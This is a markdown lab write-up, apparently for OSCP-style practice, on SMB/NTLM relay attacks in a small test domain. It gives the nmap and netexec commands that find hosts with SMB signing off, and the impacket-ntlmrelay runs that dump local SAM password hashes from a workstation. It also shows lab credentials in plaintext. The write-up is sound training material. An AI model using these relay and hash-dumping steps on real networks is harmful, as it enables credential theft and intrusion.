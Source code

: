 # SMB Relay Attack

<div class="hidden">
    <details>
        <summary>Keywords</summary>
            active directory, smb, NTLM relay
    </details>
</div>

## Infrastructure

- dc01: 10.10.1.200
- ws01: 10.10.1.201
- ws02: 10.10.1.202
- attacker: 10.10.1.102

## Pre-requisite

### SMB Signing

- using `nmap`
    ```console
    $ nmap -vvv -p 445 -Pn --script smb2-security-mode.nse -oA nmap/smb 10.10.1.200 10.10.1.201 10.10.1.202
    # Nmap 7.93 scan initiated Fri Dec 15 16:11:55 2023 as: nmap -vvv -p 445 -Pn --script smb2-security-mode.nse -oA nmap/smb 10.10.1.200 10.10.1.201 10.10.1.202
    Nmap scan report for dc01 (10.10.1.200)
    Host is up, received user-set (0.0011s latency).
    Scanned at 2023-12-15 16:11:59 +08 for 0s

    PORT    STATE SERVICE      REASON
    445/tcp open  microsoft-ds syn-ack

    Host script results:
    | smb2-security-mode:
    |   311:
    |_    Message signing enabled and required

    Nmap scan report for ws01 (10.10.1.201)
    Host is up, received user-set (0.00090s latency).
    Scanned at 2023-12-15 16:11:59 +08 for 0s

    PORT    STATE SERVICE      REASON
    445/tcp open  microsoft-ds syn-ack

    Host script results:
    | smb2-security-mode:
    |   311:
    |_    Message signing enabled but not required

    Nmap scan report for ws02 (10.10.1.202)
    Host is up, received user-set (0.00096s latency).
    Scanned at 2023-12-15 16:11:59 +08 for 0s

    PORT    STATE SERVICE      REASON
    445/tcp open  microsoft-ds syn-ack

    Host script results:
    | smb2-security-mode:
    |   311:
    |_    Message signing enabled but not required

    Read data files from: /usr/bin/../share/nmap
    # Nmap done at Fri Dec 15 16:11:59 2023 -- 3 IP addresses (3 hosts up) scanned in 3.61 seconds
    ```

    - Domain controller has `Message signing enabled and required`
    - Both workstations have `Message signing enabled but not required` (vulnerable to SMB relay attack)

- using `netexec`
    ```console
    $ netexec smb 10.10.1.200 10.10.1.201 10.10.1.202 --gen-relay-list smb-signing-false.txt
    SMB         10.10.1.201     445    WS01             [*] Windows 10.0 Build 17763 x64 (name:WS01) (domain:oscp.lab) (signing:False) (SMBv1:False)
    SMB         10.10.1.202     445    WS02             [*] Windows 10.0 Build 17763 x64 (name:WS02) (domain:oscp.lab) (signing:False) (SMBv1:False)
    SMB         10.10.1.200     445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:oscp.lab) (signing:True) (SMBv1:False)
    ```

    - Domain controller has `signing:True`
    - Both workstations have `signing:False` (vulnerable to SMB relay attack)

### Administrator Privilege

When relaying to target machine `X` from machine `Y` as a user `domain\john`,
the user needs to have administrator privilege on the target machine `X` for
this attack to work.

In the setup environment, `oscp\alice` is in the `Administrators` group on
both `ws01` and `ws02`. Thus, we could relay from anywhere (except for the
target machine itself) to either `ws01` or `ws02` as `oscp\alice`. On the
other hand, `oscp\bob` only has admin privilege on `ws02`. Hence, we could
only relay from anywhere (`dc01`, `ws01`) to `ws02` as `oscp\bob`.

## Example

> [!NOTE]
> If impacket is installed on a virtual environment and needs to execute with `sudo`
> ~~~sh
> sudo --preserve-env=PATH env impacket-ntlmrelay ...
> ~~~

### Relaying from `ws01` to `ws02` as `oscp\alice` (Succeed)

#### Attacker

```console
$ impacket-ntlmrelay -t 10.10.1.202 -smb2support
[...]

[*] Servers started, waiting for connections
[*] SMBD-Thread-5 (process_request_thread): Received connection from 10.10.1.201, attacking target smb://10.10.1.202
[*] Authenticating against smb://10.10.1.202 as OSCP/ALICE SUCCEED
[*] Service RemoteRegistry is in stopped state
[*] Service RemoteRegistry is disabled, enabling it
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x056273c5da163bf69d211acdca6423fc
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:5f91be10619e258821be997884b135f7:::
bob:1002:aad3b435b51404eeaad3b435b51404ee:217e50203a5aba59cefa863c724bf61b:::
[*] Done dumping SAM hashes for host: 10.10.1.202
[*] Stopping service RemoteRegistry
[*] Restoring the disabled state for service RemoteRegistry
```

#### Victim

```console
C:\Users\Public> hostname
ws01

C:\Users\Public> net use \\10.10.1.102 /user:oscp\alice Passw0rd!
```

### Relaying from `ws02` to `ws01` as `oscp\bob` (Failed)

#### Attacker

```console
$ impacket-ntlmrelay -t 10.10.1.201 -smb2support
[...]

[*] Servers started, waiting for connections
[*] SMBD-Thread-5 (process_request_thread): Received connection from 10.10.1.202, attacking target smb://10.10.1.201
[*] Authenticating against smb://10.10.1.201 as OSCP/BOB SUCCEED
[-] DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
```

#### Victim

```console
C:\Users\Public> hostname
ws02

C:\Users\Public> net use \\10.10.1.102 /user:oscp\bob Passw0rd!
```

